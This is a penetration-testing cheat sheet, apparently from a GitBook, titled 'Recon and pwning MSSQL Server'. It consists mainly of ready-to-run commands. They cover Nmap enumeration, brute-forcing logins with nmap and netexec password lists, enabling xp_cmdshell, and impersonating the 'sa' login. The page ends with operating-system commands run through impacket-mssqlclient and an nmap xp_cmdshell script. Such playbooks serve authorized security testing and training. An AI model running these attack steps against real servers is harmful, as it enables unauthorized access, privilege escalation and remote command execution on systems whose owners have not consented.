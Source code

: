 ```yaml
---
description: Recon and pwning MSSQL Server
---
```


# MSSQL

### Enumerate MSSQL with Nmap

{% code overflow="wrap" %}
```bash
nmap --script ms-sql-info -p 1433 10.10.10.1
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 10.10.10.1
# enumerate user with empty password
nmap -p 1433 --script ms-sql-empty-password 10.10.10.1
```
{% endcode %}

### Dictionary Attack

{% code overflow="wrap" %}
```bash
# nmap
nmap -p 1433 --script ms-sql-brute --script-args userdb=/opt/common_users.txt,passdb=/opt/unix_passwords.txt 10.10.10.1

# netexec
netexec mssql 10.10.10.1 -u /opt/common_users.txt -p /opt/unix_passwords.txt --local-auth --continue-on-success | grep -v "Login failed for user"
```
{% endcode %}

### Enable xp\_cmdshell

{% code overflow="wrap" %}
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```
{% endcode %}

### Impersonate Other User

{% code overflow="wrap" %}
```bash
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```
{% endcode %}

### Impacket-MSSQLClient

```bash
impacket-mssqlclient admin:p@ssw0rd@10.10.10.1
# check if we have 'sa' privilege
select IS_SRVROLEMEMBER ('sysadmin')
# execute command using xp_cmdshell
xp_cmdshell "whoami /priv"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiNC_SOLTJDrgSTRUw0w-mM4S3OBn2VgbKzbqysFXxuh4DML0q9fGFrZJQQL14eKyweQoCVzRDLYW9PXF2GeCSoRAFwpNsCS97swvAQ27X_6ZpanQCbZDIjo4uJ_BH2hDMQ8VZ2loKM_uSMZ7hdFkNUhPTXeDc3J2ASqnqM6A-07nJCw8xgygxk9SEJvzI/s1068/mssql%20impacket.png" alt=""><figcaption><p>Impacket-MSSQLClient</p></figcaption></figure>

Or, use Nmap to execute xp\_cmdshell:

{% code overflow="wrap" %}
```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password='p@ssw0rd',ms-sql-xp-cmdshell.cmd="ipconfig" 10.10.10.1
```
{% endcode %}
